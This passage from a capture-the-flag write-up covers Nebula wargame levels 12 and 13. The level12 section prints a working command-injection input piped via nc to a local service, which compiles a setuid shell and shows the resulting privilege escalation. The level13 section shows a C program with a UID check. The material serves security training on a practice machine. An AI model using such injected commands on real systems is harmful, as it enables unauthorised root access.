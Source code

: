 ```lua
end
```

This level had another very obvious command injection vulnerability on the line where a `password` variable is piped through `sha1sum`. I made a copy of this program and modified it to print me the outputs so that I could prepare a properly formatted command to be used on a socket. The basic idea of the injection was to separate the echo with a `;` character and compile my setuid C shell. I then added a hash (#) to ignore the rest of the command what would have been executed.

So, to solve level12:

```bash
level12@nebula:~$ echo ";gcc /var/tmp/shell.c -o /var/tmp/flag12;chmod 4777 /var/tmp/flag12;#" | nc 127.0.0.1 50001
Password: Better luck next time

level12@nebula:~$ /var/tmp/flag12
sh-4.2$ getflag
You have successfully executed getflag on a target account
sh-4.2$
```

## level13

[Level13's Description](https://exploit-exercises.com/nebula/level13/):

> There is a security check that prevents the program from continuing execution if the user invoking it does not match a specific user id.

With the description we are provided with the source code of a small C program:

```lua
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <string.h>

#define FAKEUID 1000

int main(int argc, char **argv, char **envp)
{
  int c;
  char token[256];

  if(getuid() != FAKEUID) {
      printf("Security failure detected. UID %d started us, we expect %d\n", getuid(), FAKEUID);
      printf("The system administrators will be notified of this violation\n");
      exit(EXIT_FAILURE);
  }

  // snip, sorry :)

  printf("your token is %s\n", token);

}
```
